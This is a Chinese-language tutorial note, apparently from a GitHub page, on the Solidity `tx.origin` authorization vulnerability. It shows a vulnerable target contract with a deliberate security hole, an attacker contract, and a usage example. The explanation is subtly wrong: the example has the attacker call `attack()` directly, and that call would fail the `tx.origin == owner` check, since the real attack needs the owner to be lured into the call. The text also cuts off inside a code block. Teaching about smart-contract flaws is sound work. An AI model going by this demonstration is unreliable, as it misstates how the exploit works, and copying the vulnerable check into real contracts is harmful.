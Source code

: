 > [!NOTE]
>
> 下面是一个示例，展示了如何利用 `tx.origin` 进行权限管理的漏洞，以及攻击者如何通过一个恶意合约间接调用目标合约的敏感函数。
>
> ### 1. 目标合约（TargetContract）
>
> 这个合约中有一个敏感的函数 `sensitiveFunction`，该函数仅允许某个特定的 EOA（例如，部署者）调用：
>
> ```solidity
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.8.21;
> 
> contract TargetContract {
>     address public owner;
> 
>     constructor() {
>         owner = msg.sender;  // 设置合约的拥有者
>     }
> 
>     // 仅允许合约拥有者调用
>     function sensitiveFunction() public {
>         require(tx.origin == owner, "Not the owner");  // 权限验证
>         // 敏感操作
>     }
> }
> ```
>
> ### 2. 攻击者合约（AttackerContract）
>
> 攻击者可以创建一个合约，利用 `tx.origin` 的机制间接调用 `sensitiveFunction`：
>
> ```solidity
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.8.21;
> 
> contract AttackerContract {
>     TargetContract target;
> 
>     constructor(address targetAddress) {
>         target = TargetContract(targetAddress);
>     }
> 
>     // 攻击者可以调用这个函数，间接触发敏感操作
>     function attack() external {
>         target.sensitiveFunction();  // 调用目标合约的敏感函数
>     }
> }
> ```
>
> ### 3. 使用示例
>
> 1. **部署**: 首先，部署 `TargetContract`。假设部署者的地址为 `0x123...`。
>
> 2. **攻击**: 然后，攻击者部署 `AttackerContract`，并在构造函数中传入 `TargetContract` 的地址。接下来，攻击者调用 `attack` 函数。
>
> ```solidity
> // 部署 TargetContract
> TargetContract target = new TargetContract(); 
> 
> // 部署 AttackerContract，传入目标合约地址
> AttackerContract attacker = new AttackerContract(address(target));
> 
> // 攻击者调用攻击函数
> attacker.attack();
